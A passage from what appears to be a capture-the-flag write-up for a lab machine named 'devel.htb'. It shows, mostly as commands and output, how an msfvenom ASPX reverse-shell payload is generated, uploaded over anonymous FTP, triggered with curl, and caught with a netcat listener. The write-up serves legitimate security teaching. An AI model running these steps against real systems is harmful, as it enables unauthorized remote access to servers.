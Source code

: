 # Exploitation (1)

Since we now know we can upload files to the `IIS` service via `FTP`, we can upload a `.aspx` file that will establish a reverse shell connection back to us.

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2714 bytes

$ ftp devel.htb
Connected to devel.htb.
220 Microsoft FTP Service
Name (devel.htb:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> bin
200 Type set to I.
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2749 bytes sent in 0.00 secs (1.6730 MB/s)
```

Now we start a `nc` listener:

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
```

And trigger the `shell.aspx`.

```bash
$ curl http://devel.htb/shell.aspx
```

And on our listener, we got a connection.

```bash
$ rlwrap nc -lvnp 1337     
listening on [any] 1337 ...
connect to [10.10.XX,XX] from (UNKNOWN) [10.10.10.5] 49162
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv> whoami
iis apppool\web
```
